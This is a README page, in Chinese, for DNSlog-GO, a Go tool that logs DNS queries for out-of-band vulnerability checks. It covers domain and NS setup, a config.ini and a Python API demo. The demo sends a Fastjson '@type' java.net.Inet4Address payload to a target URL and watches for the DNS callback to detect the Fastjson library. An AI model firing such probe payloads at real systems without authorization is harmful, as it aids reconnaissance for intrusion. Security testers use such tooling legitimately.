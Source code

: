 ## DNSlog-GO <https://github.com/lanyi1998/DNSlog-GO>
<!--auto_detail_badge_begin_0b490ffb61b26b45de3ea5d7dd8a582e-->
![Language](https://img.shields.io/badge/Language-Golang-blue)
![Author](https://img.shields.io/badge/Author-lanyi-orange)
![GitHub stars](https://img.shields.io/github/stars/lanyi1998/DNSlog-GO.svg?style=flat&logo=github)
![Version](https://img.shields.io/badge/Version-V1.5.1-red)
![Time](https://img.shields.io/badge/Join-20220316-green)
<!--auto_detail_badge_end_fef74f2d7ea73fcc43ff78e05b1e7451-->

DNSLog-GO 是一款golang编写的监控 DNS 解析记录的工具，自带多用户WEB界面

演示截图:

![avatar](https://github.com/lanyi1998/DNSlog-GO/raw/master/images/demo.png)

安装
---

详细图文教程:https://mp.weixin.qq.com/s/m_UXJa0imfOi721bkBpwFg

**个人单独使用推荐使用1.4版本 https://github.com/lanyi1998/DNSlog-GO/releases/tag/1.4**

**团队使用推荐使用 最新版**

## 1.获取发行版

这里 https://github.com/lanyi1998/DNSlog-GO/releases 下载最新发行版,并解压

## 2.域名与公网 IP 准备

```
搭建并使用 DNSLog，你需要拥有两个域名，一个域名作为 NS 服务器域名(例:a.com)，一个用于记录域名(例: b.com)。还需要有一个公网 IP 地址(如：1.1.1.1)
    
注意：b.com 的域名提供商需要支持自定义 NS 记录, a.com 则无要求。
    
在 a.com 中设置两条 A 记录：
    
ns1.a.com  A 记录指向  1.1.1.1        
ns2.a.com  A 记录指向  1.1.1.1
修改 b.com 的 NS 记录为 1 中设定的两个域名

本步骤中，需要在域名提供商提供的页面进行设置，部分域名提供商只允许修改 NS 记录为已经认证过的 NS 地址。所以需要找一个支持修改 NS 记录为自己 NS 的域名提供商。
    
注意: NS 记录修改之后部分地区需要 24-48 小时会生效
```

## 3.修改配置文件 config.ini

```
[HTTP]
Port = 8080  //http web监听端口
Token = admin1,admin2 //多个用户token，用,分割。可以团队成员一起使用了
ConsoleDisable = false //是否关闭web页面
    
[DNS]
Domain = demo.com //dnslog的域名
```

## 4.启动对应系统的客户端，注意服务端重启以后，必须清空一下浏览器中的localStorage,否则会获取不到数据

---

API Python Demo

```python
import requests
import random
import json


class DnsLog():
    domain = ""
    token = ""
    Webserver = ""

    def __init__(self, Webserver, token):
        self.Webserver = Webserver  # dnslog的http监听地址，格式为 ip:端口
        self.token = token  # token
        # 检测DNSLog服务器是否正常
        try:
            res = requests.post("http://" + Webserver + "/api/verifyToken", json={"token": token}).json()
            self.domain = res.Msg
        except:
            exit("DnsLog 服务器连接失败")
        if res["Msg"] == "false":
            exit("DnsLog token 验证失败")

    # 生成随机子域名
    def randomSubDomain(self, length=5):
        subDomain = ''.join(random.sample('zyxwvutsrqponmlkjihgfedcba', length)) + '.' + self.domain
        return subDomain

    # 验证子域名是否存在
    def checkDomain(self, domain):
        res = requests.post("http://" + self.Webserver + "/api/verifyDns", json={"Query": domain},
                            headers={"token": self.token}).json()
        if res["Msg"] == "false":
            return False
        else:
            return True


url = "http://192.168.41.2:8090/"

dns = DnsLog("1111:8888", "admin")

subDomain = dns.randomSubDomain()

payload = {
    "b": {
        "@type": "java.net.Inet4Address",
        "val": subDomain
    }
}

requests.post(url, json=payload)

if dns.checkDomain(subDomain):
    print("存在FastJosn")
```

<!--auto_detail_active_begin_e1c6fb434b6f0baf6912c7a1934f772b-->
## 项目相关


## 最近更新

<!--auto_detail_active_end_f9cf7911015e9913b7e691a7a5878527-->
